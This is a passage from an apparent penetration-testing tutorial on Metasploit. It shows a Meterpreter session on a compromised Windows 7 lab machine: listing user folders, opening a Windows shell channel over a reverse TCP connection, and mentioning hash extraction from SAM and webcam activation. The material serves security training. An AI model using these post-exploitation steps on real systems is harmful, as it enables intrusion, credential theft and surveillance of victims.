 Pretty nifty. From extracting user hashes from SAM to taking screenshots and activating webcams. All of this is done from the comfort of a Linux-style command line. Exploring further, we also see the option to open a shell channel. This will place us in the actual Windows command-line interface.

#### MSF - Meterpreter Navigation

  MSF - Meterpreter Navigation

```shell
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1` has been created, and we are automatically placed into the CLI for this machine. The channel here represents the connection between our device and the target host, which has been established in a reverse TCP connection (from the target host to us) using a Meterpreter Stager and Stage. The stager was activated on our machine to await a connection request initialized by the Stage payload on the target machine.

Moving into a standard shell on the target is helpful in some cases, but Meterpreter can also navigate and perform actions on the victim machine. So we see that the commands have changed, but we have the same privilege level within the system.

#### MSF - Windows CMD

  MSF - Windows CMD

```shell
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
```